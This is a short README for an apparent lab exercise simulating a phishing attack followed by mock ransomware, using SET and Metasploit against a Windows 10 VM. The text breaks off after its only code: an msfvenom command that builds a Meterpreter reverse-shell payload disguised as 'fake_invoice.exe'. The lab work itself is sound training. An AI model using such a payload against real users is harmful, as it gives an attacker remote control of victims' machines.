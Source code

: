 # Attack Simulation - Phishing + Ransomware

## 🎯 Goal

Simulate a phishing attack and post-exploitation access using reverse shell (Meterpreter), followed by mock ransomware behavior.

---

## Tools Used
- Social Engineering Toolkit (SET)
- Metasploit Framework
- Windows 10 VM (victim)
- Kali Linux (attacker)

---

## Steps Performed

### 1. Create Phishing Payload
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > fake_invoice.exe

